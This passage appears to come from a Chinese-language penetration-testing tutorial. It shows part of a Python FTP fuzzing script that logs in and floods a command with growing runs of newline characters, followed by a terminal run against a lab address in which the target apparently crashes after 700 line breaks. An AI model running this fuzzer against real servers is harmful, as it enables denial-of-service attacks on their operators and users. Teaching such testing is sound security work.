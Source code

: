 ```py
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
        connect=s.connect((target,port))      
        s.recv(1024)
        s.send('USER ' + user + '\r\n')
        s.recv(1024)
        s.send('PASS ' + passwd + '\r\n')
        s.recv(1024)
        s.send(payload + '\r\n')
        s.send('QUIT\r\n')
        s.recv(1024)
        s.close()
        i = i + interval
    except:
        print "\nUnable to send...Server may have crashed"
        sys.exit()

print "\nThere is no indication that the server has crashed" 
```

对脚本所做的修改包括，修改使用描述和删除作为提供的参数的载荷，然后将换行载荷硬编码到要按顺序发送的脚本中。

```
root@KaliLinux:~# ./ftp_fuzz.py 
Usage - ./ftp_fuzz.py [Target-IP] [Port Number] [Interval] [Maximum] 
Example - ./ftp_fuzz.py 10.0.0.5 21 100 1000 
Example will fuzz the defined FTP service with a series of line break characters to include 100 '\n's, 200 '\n's, etc... up to the maximum of 1000 
root@KaliLinux:~# ./ftp_fuzz.py 172.16.36.134 21 100 1000 
Enter ftp username: anonymous 
Enter ftp password: user@mail.com 
Enter FTP command to fuzz: MKD 
Sending 100 line break characters to target 
Sending 200 line break characters to target 
Sending 300 line break characters to target 
Sending 400 line break characters to target 
Sending 500 line break characters to target 
Sending 600 line break characters to target 
Sending 700 line break characters to target 
^C 
Unable to send...Server may have crashed
```

如果脚本在没有适当数量的系统参数的情况下执行，脚本将返回预期的用法。 然后，我们可以执行脚本并发送一系列载荷，它们的数量为 100 的倍数，最大为 1000。在发送 700 个换行符的载荷后，脚本停止发送载荷，并处于空闲状态。 在一段时间不活动后，脚本使用`Ctrl + C`被强制关闭。脚本表示它已经无法发送字符，并且远程服务器可能已经崩溃。 看看下面的截图：

![](img/6-2-1.jpg)
